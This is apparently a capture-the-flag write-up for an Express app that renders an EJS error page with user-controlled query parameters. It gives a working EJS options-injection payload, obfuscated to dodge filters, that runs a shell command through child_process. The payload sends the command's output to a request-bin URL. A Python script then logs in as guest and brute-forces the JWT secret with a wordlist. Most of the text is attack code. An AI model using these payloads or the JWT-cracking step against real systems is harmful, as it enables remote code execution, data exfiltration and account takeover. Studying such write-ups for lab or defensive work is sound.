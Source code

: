 ```javascript

    const { userId } = req.params;
    const user = users.find((user) => user.id === userId);

    const errors = validationResult(req);
    if (!errors.isEmpty()) {
      return res.status(400).json({ errors: errors.array() });
    }

    if (user) {
      res.json(user);
    } else {
      req.query.errorCode = "404";
      req.query.message = "User not found";
      console.log(req.query);
      res.status(404).render("error", req.query);
    }
  },
);
```

in source code, it render with `res.status(404).render("error", req.query);` if no user matches.
trigger rce with ejs vulnerability.
```javascript
settings[view options][escapeFunction]=(() => {import(`chi${''}ld_p${''}rocess`).then((xx) => {% raw %}{{var a = xx[`ex${''}ecSync`]('cat flag.txt');import(`https`).then((yy) => {yy.get(`[your_request_bin_url]?a=${a}`);});}}{% endraw %});})&settings[view options][client]=1&settings[view options][debug]=1
```

```javascript
() => {
  import(`chi${""}ld_p${""}rocess`).then((xx) => {
    {
      var a = xx[`ex${""}ecSync`]("cat flag.txt");
      import(`https`).then((yy) => {
        yy.get(`[your_request_bin_url]?a=${a}`);
      });
    }
  });
};
```
cat `flag.txt` and send it to request bin.

### Exploit
```python
import subprocess
import jwt
import requests

s = requests.Session()

guest = s.post(
    "http://localhost:3000/login",
    data={"userId": "guest", "userPw": "guest"},
)
guest_token = s.cookies.get_dict()["token"]
with open("./token.txt", "w") as f:
    f.write(guest_token)
a = subprocess.run(
    "cat rockyou.txt | ../gojwtcrack/gojwtcrack -t token.txt",
    text=True,
    shell=True,
    capture_output=True,
)
```